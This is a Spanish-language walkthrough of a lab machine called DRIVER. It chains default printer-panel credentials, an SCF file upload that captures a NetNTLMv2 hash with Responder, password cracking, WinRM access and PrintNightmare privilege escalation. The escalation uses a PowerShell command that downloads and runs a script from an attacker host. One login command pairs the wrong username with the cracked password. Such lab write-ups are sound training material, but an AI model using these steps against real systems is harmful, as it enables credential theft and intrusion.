






## Enumeracion

Emmpezamos nuestra enumeracion como es de costumbre con nmap, nos reporta abiertos los puertos 80(HTTP),135(Microsoft Remote Procedure Call),445)(SMB),5985(WinRM), este ultimo seguramente nos permita accedera la maquina mas adelante.



Lanzamos nuestros scipts basicos pero tampoco nos reporta nada importante.



Entro a la pagina web a ver su comportamiento y lo primero que me encuentro es un panel de log, pruebo credenciales por defecto y .... en efecto tiene username:`admin` password:`admin` y consigo entrar. Me encuentro con un [MFP Firmware Update Center](# "Es una función o herramienta que permite a las impresoras multifunción (MFP, por sus siglas en inglés) buscar, descargar e instalar actualizaciones para su firmware"), ya que veo que el puerto 445 abierto, tengo el poder de subir documentos, voy a intentar subir un archivo .sfc [SCF File Attacks](https://www.cliffsnotes.com/study-notes/27981006), este ataque juega con los archivos (Shell Command File), el cual posee una linea en la cual podemos acceder a recursos remotos. A si que podemos ponernos en escucha con [Responder](# "Herramienta de post-explotación en redes Windows para capturar hashes de autenticación y realizar ataques de envenenamiento de protocolos.") y obtener el hash.

```
responder -I tun0
```
#### Cooking .SCF

```bash
[Shell]
Command=2
IconFile=\\YOUR-IP\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
Es te deveria ser el contenido del .scf indicandole que busque ese recurso dentro de tu maquina, en el momento que lo haga capturaremos el hash y si es devil lo crakearemos.

#### Obteniendo y crackeando el hash

Con nuestro archivo recien echo y estando en escucha vamos a ir _Firmware Updates_ y subiremos el archivo .scf esto nos deve devolver un hash como este 

```java
tony::DRIVER:ca466bcf67e9211a:51C4D8221BE45DD7B999B035507BE043:01010000000000000004DA3B131DDC01C2868CD4A387306E0000000002000800510045004D00530001001E00570049004E002D004300440046004E004E004B0035004A0055004C00590004003400570049004E002D004300440046004E004E004B0035004A0055004C0059002E00510045004D0053002E004C004F00430041004C0003001400510045004D0053002E004C004F00430041004C0005001400510045004D0053002E004C004F00430041004C00070008000004DA3B131DDC0106000400020000000800300030000000000000000000000000200000803011CC984C050B19A6475D63E119FE9DAABC38DD35155E7028A34068ECBF820A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003300000000000000000000000000
```

Para crakeralo voy a utilizar john, para esto debemos crear una archivo donde guardaremos el hash y ejecutaremos el siguiente comando.

```
❯ john -w=/usr/share/wordlists/rockyou.txt hash
```


<snap style="font-size:12px">_La contraceñas es liltony_</snap>

Ya tenemos el suario `tony` y el password `liltony` vamos a probar si tenemos autenticacion directa via WinRM

```java
nxc winrm 10.10.11.106 -u "tony" -p "liltony"
WINRM       10.10.11.106    5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.10.11.106    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```
Vamos a utilizar [evil-winrm](# "Herramienta post-explotación para entornos Windows que permite autenticarse en sistemas remotos usando credenciales claras (usuario/contraseña) o hashes NTLM, y ejecutar comandos de manera remota.") para conectarnos via WinRM, tendremos que pasar le las credenciales y obtendremos acceso a la maquina.

```java
evil-winrm -i 10.10.11.106 -u admin -p liltony
```

#### Escalando privilegios

Vamos a descargarnos el [winpeas](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) en nuestra maquina y dentro de la maquina victima lo que haremos sera ejecutar el siguiente comando.

```
upload winPEASx64.exe C:\temp\win.exe
.\win.exe
```

Echando le un vistaso al reporte que da winpeas, nos reporta en la seccion de _"Current TCP Listening Ports"_ un proceso bastante importante.


El proceso spoolsv maneja todas las tareas de impresion, el [CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675) Explota la forma en el que el servicio valida los drivers de impresora y consigue escalar privilegio, a si que nos descargaremos el poc y esta vez no lo subiremos como lo hicimos con winpeas, si lo hacemos de esta manera los permisos de la maquina no nos dejaran ejecutar el exploit, pero lo podemos engañar de la siguiente manera

- Primero tienes que montar un servidor en python donde tengas el exploit descargado

- Luego engañaremos a la maquina para que lo interprete como in Invoke 

```
IEX(New-Object Net.WebClient).downloadString('http://your-ip/CVE-2021-1675.ps1')
```

Ya que nunca se inporta un archivo .ps1 si no que se descarga como una String, las politicas de ejecucion no entran en problemas.

- Sigiendo con lo que dice el poc añadiremos un nuevo usuario con el siguiente comando 
```

Invoke-Nightmare -DriverName "Xerox" -NewUser "atr4x" -NewPassword "atr4x" 
```
- Hacemos un `net user` para ver si se a guardado el usuario como administrador.



Ahora ya podemos conectarnos con evil-winrm con el usuario que acabamos de crear :3 

## FIN

